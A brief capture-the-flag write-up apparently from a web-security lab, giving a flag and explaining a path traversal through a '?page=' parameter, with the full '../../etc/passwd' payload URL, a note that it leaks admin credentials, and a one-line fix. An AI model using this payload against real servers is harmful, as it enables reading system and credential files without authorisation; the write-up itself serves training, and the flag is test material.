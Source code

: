 # MEDIA REQUEST

## The flag

```
THE FLAG IS : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

## How to find it ?

On the page http://{IP_ADDRESS}/?page=signin

"?page=signin" is a open gate to the server

As it runs on UNIX, search the "/etc/passwd" file
replace "signin" by ".." untill you reach root and then add "/etc/passwd"

here : http://{IP_ADDRESS}/?page=../../../../../../../etc/passwd

## How to use it ?

Stole admin login and pswd

## How to avoid it ?

Allow only public folder to be reach